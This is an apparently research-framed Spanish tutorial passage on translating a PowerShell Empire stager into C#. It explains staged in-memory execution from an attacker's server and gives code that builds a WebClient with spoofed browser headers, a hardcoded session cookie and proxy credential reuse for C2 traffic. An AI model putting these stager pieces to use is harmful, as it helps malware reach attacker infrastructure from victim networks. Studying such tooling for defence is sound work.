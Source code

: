# De PowerShell a C#.
 
El **System.Net.ServicePointManager.Expect100Continue** en palabras simples, esta propiedad si es verdadera, las solicitudes del cliente que usan los métodos PUT y POST agregarán un encabezado Expect a la solicitud. Para más información, consulte el [enlace](https://msdn.microsoft.com/en-us/library/system.net.servicepointmanager.expect100continue(v=vs.110).aspx)

```
# PowerShell avoid sending Expect 100 Header 
[System.Net.ServicePointManager]::Expect100Continue=0;
 
// C# avoid sending Expect 100 Header 
System.Net.ServicePointManager.Expect100Continue = false;
```

# Conexión al Servidor 

El siguiente punto que tenemos es el objeto **Web.Client**, lo usamos para comunicarnos con el servidor Empire que aloja la segunda etapa (stage 2).
 
Básicamente, la primera etapa (stage 1) es responsable de crear una conexión con la máquina atacante y ejecutar en la memoria la segunda parte (stage 2) (que generalmente es más grande). A veces se hace referencia como stage0 y stage1. Si desea saber más sobre la ejecución en etapas o stages de los malware puede consultar esta [documentación de Metasploit](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/).
 
El objeto **Web.Client** incluye todas las piezas para realizar la comunicación web. En caso de que el objetivo esté utilizando un proxy para comunicarse con otras redes, las propiedades **DefaultWebProxy** y **DefaultNetworkCredentials** se utilizan para proporcionar Autenticación y conexión a través del Servidor Proxy, si es necesario. No convertí la parte de proxy del código, no fue necesario para mi investigación, depende de usted convertirlo si lo necesita.

```
# PowerShell Create WebClient Object
$wc=New-Object System.Net.WebClient;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$wc.Headers.Add('User-Agent',$u);
$wc.Headers.Add("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$wc.Headers.Add("Accept-Language","en-en");
$wc.Headers.Add("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
 
# PowerShell Use Default Web Proxy if Enabled
$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$Script:Proxy = $wc.Proxy;
 
// C# Create a WebClient Object
WebClient wc = new WebClient();
string ua = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";
wc.Headers["User-Agent"] = ua;
wc.Headers["Cookie"] = "session=968PH6bE9CDkwYGfsUPraz0x5PQ=";
```
